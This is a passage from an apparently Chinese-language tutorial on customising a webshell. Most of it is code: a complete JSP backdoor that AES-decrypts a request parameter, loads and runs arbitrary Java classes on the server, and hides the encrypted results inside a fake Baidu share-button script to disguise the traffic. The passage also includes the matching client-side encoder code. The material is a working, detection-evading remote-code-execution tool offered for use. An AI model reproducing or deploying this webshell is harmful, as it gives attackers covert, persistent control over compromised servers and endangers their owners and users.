            response.getWriter().write("-->");
            response.getWriter().write("</script>");
            response.getWriter().write("</body>");
            response.getWriter().write("</html>");
        }
    } catch (Exception e) {
        // 捕获异常并忽略
    }
%>
```

得到的是一个 html 页面

首先我们生成一个木马看看效果

```
<%!String xc = "0cc175b9c0f1b6a8";
String pass = "a";
String md5 = md5(pass + xc);

class X extends ClassLoader {
    public X(ClassLoader z) {
        super(z);
    }

    public Class Q(byte[] cb) {
        return super.defineClass(cb, 0, cb.length);
    }
}

public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m;
        m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {
    }
    return ret;
}
public byte[] x(byte[] s, boolean m) {
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
        return c.doFinal(s);
    } catch (Exception e) {
        return null;
    }
}


public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}

public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
        value = (byte[]) decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Decoder");
            Object decoder = base64.newInstance();
            value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}

    public static byte[] base64Decode(byte[] bytes) {
            Class base64;
            byte[] value = null;
            Object decoder;
            try {
                base64 = Class.forName("java.util.Base64");
                decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(decoder, new Object[]{bytes});
            } catch (Exception e) {
                try {
                    base64 = Class.forName("sun.misc.BASE64Decoder");
                    decoder = base64.newInstance();
                    value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{new String(bytes)});
                } catch (Exception e2) {
                }
            }
            return value;
        }%><%try { byte[] data = base64Decode(request.getParameter(pass).getBytes()); data = base64Decode(data); data = x(data, false); if (session.getAttribute("payload") == null) { session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data)); } else { request.setAttribute("parameters", data); java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream(); Object f = ((Class) session.getAttribute("payload")).newInstance(); f.equals(arrOut); f.equals(pageContext); String left = md5.substring(0, 5).toLowerCase(); String replacedString = "var Rebdsek_config=".replace("bdsek", left); response.setContentType("text/html"); response.getWriter().write("<!DOCTYPE html>"); response.getWriter().write("<html lang="en">"); response.getWriter().write("<head>"); response.getWriter().write("<meta charset="UTF-8">"); response.getWriter().write("<title>{title}</title>"); response.getWriter().write("</head>"); response.getWriter().write("<body>"); response.getWriter().write("<script>"); response.getWriter().write("<!-- Baidu Button BEGIN"); response.getWriter().write("<script type="text/javascript" id="bdshare_js" data="type=slide&amp;img=8&amp;pos=right&amp;uid=6537022" ></script>"); response.getWriter().write("<script type="text/javascript" id="bdshell_js"></script>"); response.getWriter().write("<script type="text/javascript">"); response.getWriter().write(replacedString); f.toString(); response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true))); response.getWriter().write(";"); response.getWriter().write("document.getElementById("bdshell_js").src = "http://bdimg.share.baidu.com/static/js/shell_v2.js?cdnversion=" + Math.ceil(new Date()/3600000);"); response.getWriter().write("</script>"); response.getWriter().write("-->"); response.getWriter().write("</script>"); response.getWriter().write("</body>"); response.getWriter().write("</html>"); } } catch (Exception e) {}
%>
```

然后我们连接木马看看流量



当然需要匹配到我们的逻辑

```
public void init(ShellEntity context) {
    this.shell = context;
    this.http = this.shell.getHttp();
    this.key = this.shell.getSecretKeyX();
    this.pass = this.shell.getPassword();
    String findStrMd5 = functions.md5(this.pass + new String(this.key));
    String md5Prefix = findStrMd5.substring(0, 5);
    this.findStrLeft1 = "var Rebdsek_config=";
    this.findStrLeft = this.findStrLeft1.replace("bdsek", md5Prefix);
    this.findStrRight = ";";

    try {
        this.encodeCipher = Cipher.getInstance("AES");
        this.decodeCipher = Cipher.getInstance("AES");
        this.encodeCipher.init(1, new SecretKeySpec(this.key.getBytes(), "AES"));
        this.decodeCipher.init(2, new SecretKeySpec(this.key.getBytes(), "AES"));
        this.payload = this.shell.getPayloadModule().getPayload();
        if (this.payload != null) {
            this.http.sendHttpResponse(this.payload);
            this.state = true;
        } else {
            Log.error("payload Is Null");
        }

    } catch (Exception var5) {
        Log.error(var5);
    }
}

```
